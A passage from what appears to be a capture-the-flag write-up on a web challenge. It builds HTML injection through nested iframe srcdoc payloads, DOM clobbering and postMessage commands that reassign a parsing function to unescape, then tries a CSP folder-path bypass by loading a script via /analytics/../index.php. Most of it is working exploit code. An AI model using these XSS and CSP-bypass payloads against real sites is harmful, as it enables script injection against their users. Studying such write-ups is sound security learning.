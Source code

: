 What this is doing is basically:
```js
z=x;
z+=0;
logv(z);
```

And now we can see the URL of the anchor element on the page. I immediately though about appending queryparameters to the URL inside the href, to get some HTML input there and changed the href to `href=ftp:test:test@a?c=<marquee>test</marquee>`. However, even when putting this into our HTML code, I noticed that this needs to be HTML encoded, resulting in the full payload beeing:
```js
const base=`<iframe name=store srcdoc="<iframe srcdoc='<a id=admin href=ftp:test:test@a?c=${encodeURIComponent(`<marquee>test</marquee>`)}>test</a>' name=users>"></iframe><img id="DEV"><iframe src="console.php">`;
```

Running this showed the full URL in the DOM with the encoded `<>` tags and was not resulting in the HTML injection. We however already noted, that there is this method `u` beeing `let u = (s) => unescape(s);`. If we can call this method on the string printed out, we can get HTML injection. 
Having a look at `parse`, which is called on each log message printed out, we see, that `parse` is calling the `s` method. This is really promising, because both characters `s` and `u` are allowed by the RegExp in the `reassign` method. So we just reassign `s` beeing `u` and we should get HTML injection:

```js
sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"reassign",message:{a:"z",b:"x"}});
sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"reassign",message:{a:"z+",b:"0"}});

sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"reassign",message:{a:"s",b:"u"}});

sendToAllFrames(win, {credentials:{username:"test",password:"test"},cmd:"logv",message:"z"});
```

And indeed, using this, we successfully have HTML injection!

### Bypassing the CSP

Having HTML injection does not automatically mean, we are also able to perform XSS. The CSP is blocking normal inline JavaScript code. But however we have the CSP pointing to `/analytics/` with the analytics file beeing empty. This should be the way to go, otherwise it would not be in the challenge.

At first I thought that there is maybe another script somewhere in the `/analytics` directory, but looking for some scripts did not turn out successfully. Then I read about the (Folder Bypass)[https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#folder-path-bypass]. So I used the following payload to see, if the CSP will block the request or not:
```js
const base=`<iframe name=store srcdoc="<iframe srcdoc='<a id=admin href=ftp:test:test@a?c=${encodeURIComponent(`<script src=/analytics/../index.php>`)}%3c${encodeURIComponent(`/script>`)}>test</a>' name=users>"></iframe><img id="DEV"><iframe src="console.php">`;
```
